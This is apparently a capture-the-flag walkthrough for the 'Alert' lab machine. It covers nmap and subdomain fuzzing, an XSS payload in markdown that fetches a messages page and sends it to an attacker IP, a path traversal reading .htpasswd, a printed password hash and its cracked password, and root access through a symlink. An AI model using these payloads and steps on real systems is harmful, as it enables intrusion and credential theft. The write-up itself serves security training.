 

1.  RUN: **nmap -sV -Pn alert.htb**

Result: PORTS FOUND: 22, 80

![](images/media/image1.png)

2.  Open **HTTP://alert.htb:80**

![](images/media/image2.png)

**INFO:** According to title Alert, it should be XSS vulnerability

**SUBDOMAIN FUZZ**

1.  RUN: **ffuf -w
    /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u
    http://alert.htb -H \"Host:FUZZ.alert.htb\" -ac**

> ![](images/media/image3.png)

1.  On Kali VM: Start HTTP-Server RUN: **python -m http.server 80**

![](images/media/image4.png)

2.  Create **XSS_payload.md** file

- Paste script in it

- In LINE 5, Replace IP with local Kali VM IP

![](images/media/image5.png)

**Source: <https://github.com/sh3bu/CVE-2024-41662>**

**Script:**

[\<script\>]{.mark}

[fetch(\"http://alert.htb/index.php?page=messages\")]{.mark}

[.then(response =\> response.text()) // Convert the response to
text]{.mark}

[.then(data =\> {]{.mark}

[fetch(\"http://10.10.14.201/?data=\" +
encodeURIComponent(data));]{.mark}

[})]{.mark}

[.catch(error =\> console.error(\"Error fetching the messages:\",
error));]{.mark}

[\</script\>]{.mark}

- Upload to markdown website

![](images/media/image6.png)

**Result**

![](images/media/image7.png)

Easier to read with <https://www.urldecoder.org/>

3.  Start **python -m http.server 9001** or nc -lvnp 9001

![](images/media/image8.png)

4.  PATCH TRAVERSAL: Create modified script

<http://alert.htb/messages.php?file=../../../../../../../var/www/statistics.alert.htb/.htpasswd>

![](images/media/image9.png)

5.  Upload that script on Website
    [**http://alert.htb**](http://alert.htb)

**Click View Markdown**

![](images/media/image10.png)

Right click -\> copy link

6.  ![](images/media/image11.png)![](images/media/image12.png)

7.  Upload copied LINK to **Contact** on
    **<http://alert.htb>/index.php?page=contact**

![](images/media/image13.png)

8.  After you click on SEND, you'll get the displayed in Kali VM, the
    **HASH Password**

**%3Cpre%3Ealbert%3A%24apr1%24bMoRBJOg%24igG8WBtQ1xYDTQdLjSWZQ%2F%0A%3C%2Fpre%3E%0A**

![](images/media/image14.png)

9. Convert it to cleartext on
    [www.urldecoder.org](http://www.urldecoder.org) or CyberChef
    <https://gchq.github.io/CyberChef>

![](images/media/image15.png)

10. Create file **alert.hash** and paste hash in it

11. Crack it with **hashcat alert.hash /home/kali/Desktop/rockyou.txt**

![](images/media/image16.png)

-Login with **User:** albert **Password:** manchesterunited and display
**user.txt FLAG**

RUN: cat user.txt

**PRIVILEGE ESCALATION**

12. Transfer **linpeas.sh** to Server RUN: **scp linpeas.sh
    <albert@alert.htb>:**

**INFO:** Terminal has to be opened in same directory as file linpeas.sh

![](images/media/image17.png)

13. On server RUN: **./linpeas.sh**

- **Port 8080 is open**

![](images/media/image18.png)

Look for interesting paths, like **/opt/ (NEEDED in STEP 19)**

![](images/media/image19.png)

14. PORT FORWARDING: **ssh -L 8080:127.0.0.1:8080 <albert@alert.htb>**

![](images/media/image20.png)

15. Firefox access **127.0.0.1:8080**

![](images/media/image21.png)

16. Change directory to /opt/website-monitor and list all files

-RUN: **cd /opt/website-monitor**

-RUN: **ls -la**

**INFO: ls -la** is a very useful command for **getting a detailed view
of the files and directories** in a given location, **including hidden
files and their permissions, ownership, sizes, and modification times.**

**-**Explore the **/opt/website-monitor** directory. Investigate, how
the application works. Check which directories have write permission

![](images/media/image22.png)

17. You will see the contents of the monitors directory. You can open
    these files through the browser.

Open following in Browser: **http://127.0.0.1:8080/monitors/alert.htb**

![](images/media/image23.png)

18. The application is running under the root user so you should be able
    to read the **/etc/shadow** or **/root/root.txt**. Just create a
    symlink in the **monitors** directory and call it **root.txt**

- To create SYMBOLIC LINK, RUN: **ln -s /root/root.txt root.txt**

![](images/media/image24.png)

**Root.txt FLAG**
